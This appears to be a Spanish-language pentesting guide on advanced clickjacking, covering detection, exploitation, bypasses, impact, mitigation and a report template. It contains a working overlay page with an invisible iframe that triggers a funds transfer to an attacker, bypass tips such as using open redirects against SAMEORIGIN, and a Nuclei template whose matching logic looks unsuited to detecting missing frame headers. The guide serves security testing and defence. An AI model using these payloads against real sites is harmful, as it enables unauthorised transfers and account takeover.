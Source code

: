 # Clickjacking Avanzado 

## Resumen

El clickjacking es una técnica de ataque que consiste en engañar al usuario para que haga clic en elementos invisibles o disfrazados de una interfaz legítima, obligándole a interactuar con la aplicación bajo el control del atacante. Cuando el clickjacking se combina con otras vulnerabilidades (CSRF, XSS, OAuth, compras, transferencias bancarias, subida de archivos), puede permitir compromisos críticos, robo de fondos y ejecución de acciones privilegiadas sin consentimiento.

---

## Contexto

Este ataque explota el modelo visual del navegador y ocurre principalmente mediante el uso de iframes transparentes, CSS de opacidad y manipulación de capas. Cualquier aplicación vulnerable que permita ser embebida en un sitio externo (sin restricciones por cabeceras adecuadas) puede ser objetivo, con especial riesgo en:

- Formularios de autenticación y acciones sensibles
- Flujos de pago, donaciones o transferencias
- Paneles administrativos y funciones de cambio de permisos
- Dialogs de autorización OAuth, SAML, SSO

Las protecciones por defecto suelen ser inadecuadas o inexistentes en entornos legacy o APIs móviles/browser embebidos.

---

## Metodología de Ataque y Testing

### 1. Detección de Superficie Vulnerable

- Verificar si la URL objetivo puede ser cargada en un `<iframe>` externo.

```html
<iframe src="https://victima.com/sensible" width="800" height="600"></iframe>
```

- Revisar headers de protección:
  - `X-Frame-Options: DENY | SAMEORIGIN`
  - `Content-Security-Policy: frame-ancestors 'none'| 'self' | ...`

**Test rápido:**

```bash
curl -I https://victima.com | grep -iE "x-frame-options|content-security-policy"
```

Si NO hay ninguno, el sitio probablemente es vulnerable.

---

### 2. Explotación Manual Básica

**Caso clásico – banking/payment hijack:**

```html
<!DOCTYPE html>
<html>
  <body>
    <h1>¡Haz clic en el botón para ganar un premio!</h1>
    <div style="position:relative;z-index:2;">
      <button style="font-size:40px;opacity:1;">Click aquí</button>
    </div>
    <iframe
      src="https://victima.com/transfer?amount=10000&to=atacante"
      style="position:absolute;top:0;left:0;width:400px;height:90px;opacity:0;z-index:3;border:none;pointer-events:auto;"
      scrolling="no">
    </iframe>
  </body>
</html>
```

- El usuario cree hacer clic en un botón inofensivo, pero realmente activa una transferencia.

**Avanzado:**

- Ajustar opacidad, pointer-events, displacement animado para “engañar” o sincronizar el click sobre elementos de logout, aceptar, subir archivo, etc.

---

### 3. Clickjacking Multi-Etapa y UI Redressing

- Encadenar varios frames/acciones para explotar flujos completos (ej: OAuth approve → transferencia → cambio de pantalla).
- Disfrazar elementos de sesión y engañar visualmente con estilos CSS avanzados.
- Probar combinaciones con drag-and-drop, doble click, hover.

---

### 4. Explotación con File Upload / Cámara / OAuth / SSRF

- Embebiendo formularios de subida de archivos: víctima sube accidentalmente archivos al atacante.
- Frameando dialogs de permisos de cámara/micrófono, forzando activación.
- OAuth: aprobar scopes de privilegio alto sin que la víctima lo perciba.
- En paneles admin: clickjacking para activar/desactivar flags críticos.

---

### 5. Automatización de Testing

**headless browser (puppeteer/playwright):** validar visibilidad/clic.

```javascript
const puppeteer = require('puppeteer');
(async () => {
  const browser = await puppeteer.launch();
  const page = await browser.newPage();
  await page.goto('https://atacante.com/clickjack.html');
  await page.click('button');
  // Revisar si la acción en iframe fue ejecutada  
  await browser.close();
})();
```

**Nuclei Template:**

```yaml
id: clickjacking-detect
info:
  name: Clickjacking Frame Detection
requests:
  - method: GET
    path:
      - "{{BaseURL}}"
    matchers-condition: and
    matchers:
      - type: regex
        regex:
          - "<iframe.*"
      - type: status
        status:
          - 200
```

---

## Técnicas de Evasión y Bypass

- **Sin X-Frame-Options ni CSP:** 100% vulnerable.
- **X-Frame-Options: SAMEORIGIN:** usar open redirects para saltar origen.
- **Multipart / fragmentos:** algunas versiones antiguas de navegadores ignoran headers bajo condiciones no estándares (demasiadas redirecciones, cookies manipuladas, iframes anidados).
- **CSP débil:** si “frame-ancestors” permite dominio del atacante, o uso de comodines.

---

## Impacto

- Cambio de correo/contraseña sin consentimiento
- AuthZ escalate: asignar o revocar permisos a otros usuarios/admin
- Transferencias bancarias silenciosas
- Subida/Borrado de archivos no autorizados
- Aprobación de scopes y acceso total a OAuth/Google/Microsoft APIs
- Filtración de información sensible mediante UI redressing o robo de token en flows cross-origin

---

## Mitigación

1. **X-Frame-Options: DENY**
   - Bloquea completamente el uso de iframes sobre la aplicación.
2. **Content-Security-Policy: frame-ancestors 'none'|'self'**
   - CSP granular para dominios autorizados.
3. **Controlar todos los endpoints expuestos**
   - Incluyendo paneles de login, APIs móviles, subdominios, endpoints legacy.
4. **Randomización y UX mejorada:**
   - Campos críticos validados por doble confirmación, input delay o CAPTCHA.
5. **JavaScript defensive**:
   - Detectar si el sitio corre en frame y romperlo:

```javascript
if (window.top !== window.self) window.top.location = window.self.location;
```

6. **Auditoría y testing automatizado** en cada despliegue.

---

## Errores Comunes

- Configurar X-Frame-Options sólo en root y no en endpoints secundarios.
- Uso flexible de “ALLOW-FROM” sin controlar CSP complementaria.
- Ignorar protección en subdominios y rutas menos críticas (admin, beta, móviles...).
- No actualizar configuraciones tras refactor o nuevas integraciones de terceros.

---

## PoC y Reporte

```markdown
## Clickjacking Vulnerability on /transfer Endpoint
**Severity:** Critical
**Summary:** The /transfer and /profile endpoints do not implement any frame-busting headers or CSP, exposing the application to clickjacking attacks.
**PoC:**  
1. User visits atacante.com/clickjack.html  
2. Attacker page overlays an invisible iframe pointing to https://victima.com/transfer  
3. Victim clicks on a visible button, opening a fund transfer to attacker.
**Impact:**  
- Unauthorized transfers, privilege escalation, authZ bypass.
**Mitigation:**  
- Set X-Frame-Options: DENY or Content-Security-Policy: frame-ancestors 'none'.
```

---

## Detección y Monitorización

- Escaneo periódico de headers en todos los endpoints públicos.
- Monitorización de logs frente a patrones sospechosos en referers/host encabezados a raíz de flows anómalos de traffic frameado.

---

Clickjacking es un ataque de alto impacto, infravalorado y frecuentemente olvidado por defensas modernas y automatizadas. Debe incluirse obligatoriamente en todos los pipelines de análisis y hardening de aplicaciones web.
